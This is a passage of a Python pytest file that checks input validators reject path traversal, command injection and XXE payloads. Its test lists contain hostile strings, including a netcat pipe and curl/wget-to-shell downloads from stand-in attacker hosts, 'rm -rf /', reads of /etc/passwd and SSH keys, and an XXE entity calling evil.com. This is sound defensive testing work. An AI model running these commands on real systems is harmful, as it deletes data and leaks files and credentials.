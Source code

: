 ```python
            "/tmp/../../../root/.ssh/id_rsa",
            "legitimate/../../../../../etc/hosts",
            ".././.././.././etc/passwd",
            "..%2F..%2F..%2Fetc%2Fpasswd",  # URL encoded
            "..%5c..%5c..%5cetc%5cpasswd",  # Windows URL encoded
            "\u002e\u002e\u002f\u002e\u002e\u002f\u002e\u002e\u002f",  # Unicode
            "....//....//....//etc/passwd",  # Double dot bypass
            "..;/..;/..;/etc/passwd",        # Semicolon bypass
            "normal_file/../../../etc/passwd",
            "CON", "PRN", "AUX", "NUL",      # Windows reserved names
            "COM1:", "LPT1:",                # Windows device names
        ]
        
        for attack in traversal_attacks:
            with pytest.raises(ValidationError) as exc_info:
                validate_file_path_secure(attack, must_exist=False)
            assert "path" in str(exc_info.value).lower()
    
    def test_command_injection_prevention_comprehensive(self):
        """Test comprehensive command injection prevention"""
        from utils.validation import validate_text_secure
        
        # All known command injection patterns
        injection_attacks = [
            "hello; rm -rf /",
            "test && malicious_command",
            "input || dangerous_cmd",
            "text `whoami` more",
            "data $(uname -a) text",
            "file.txt | nc attacker.com 1234",
            "input > /dev/null; evil_command",
            "test < /etc/passwd",
            "curl attacker.com/evil.sh | bash",
            "wget -O- hacker.com/script | sh",
            "echo $USER",
            "test & background_cmd",
            "eval('malicious')",
            "exec('dangerous')",
            "__import__('os').system('rm -rf /')"
        ]
        
        for attack in injection_attacks:
            with pytest.raises(ValidationError) as exc_info:
                validate_text_secure(attack, context="transcription")
            assert "dangerous" in str(exc_info.value).lower()
    
    def test_xxe_prevention_comprehensive(self):
        """Test comprehensive XXE prevention"""
        from utils.validation import validate_json_message_secure
        
        # XXE attack payloads
        xxe_attacks = [
            '{"type": "test", "data": "<!DOCTYPE foo [<!ENTITY xxe SYSTEM \\"file:///etc/passwd\\">]>"}',
            '{"xml": "<?xml version=\\"1.0\\"?><!DOCTYPE root [<!ENTITY test SYSTEM \\"file:///etc/passwd\\">]>"}',
            '{"content": "<!DOCTYPE html [<!ENTITY xxe SYSTEM \\"http://evil.com/steal\\">]>"}',
            '{"data": "<!ENTITY % xxe SYSTEM \\"file:///etc/hosts\\"> %xxe;"}',
            '{"payload": "<!DOCTYPE svg [<!ENTITY xxe SYSTEM \\"file:///proc/version\\">]>"}',
        ]
        
        for attack in xxe_attacks:
            with pytest.raises(ValidationError) as exc_info:
```